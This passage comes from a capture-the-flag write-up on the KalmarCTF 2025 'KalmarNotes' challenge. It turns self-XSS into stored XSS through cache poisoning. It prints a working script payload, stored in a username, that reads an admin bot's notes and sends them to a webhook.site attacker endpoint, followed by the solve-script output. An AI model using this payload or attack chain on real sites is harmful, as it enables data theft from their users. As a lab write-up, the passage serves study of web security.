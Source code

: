 Therefore, we can escalate the **self-XSS vulnerability to stored XSS via cache poisoning**!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250311172021.png)

Nice! So we can now exfiltrate the admin bot's session cookie and view the flag note, right?

```python
app.config.update(
    SESSION_COOKIE_SAMESITE='Strict',
    SESSION_COOKIE_HTTPONLY=True
)
```

Oh, the session has flag `httpOnly`!!

But don't worry, we can just use our payload to read all the admin bot's notes via GET route `/api/notes`, and exfiltrate the JSON notes object to our attacker server, like the following:

```html
<script>
fetch('/api/notes')
  .then(response => response.json())
  .then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))
</script>
```

## Exploitation

Armed with above information, we can read the flag note's content via the following steps:
1. Register a new user with our XSS payload in the username
2. Create a new note
3. Cache poisoning the note (Make sure cache is hit)
4. Report the poisoned note to the admin bot

To automate the above step, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarNotes)-[2025.03.11|18:33:05(HKT)]
└> python3 solve.py
[*] Registering new user with username "<script>fetch(`/api/notes`).then(response => response.json()).then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))</script>vzLQlyMhWM" | Password: "zINLJFThmP"
[+] Registered a new user
[*] Loggin user "<script>fetch(`/api/notes`).then(response => response.json()).then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))</script>vzLQlyMhWM"
[+] Registered a new user
[*] Creating a new note
[+] Created a new note
[*] Getting a random note ID
[+] Random note ID: 126054782064
[*] Poisoning note ID 126054782064
[*] Current cache hits: 5
[+] Note ID 126054782064 is now poisoned with age 5! URL: https://42582f7d651545634d8c119d86d4ad62-49590.inst1.chal-kalmarc.tf/note/126054782064/long?.js
[*] Reporting to the admin bot with URL: https://42582f7d651545634d8c119d86d4ad62-49590.inst1.chal-kalmarc.tf/note/126054782064/long?.js
[+] Reported to the admin bot. Check your exfiltrated attacker server to see if there's any new request.
```
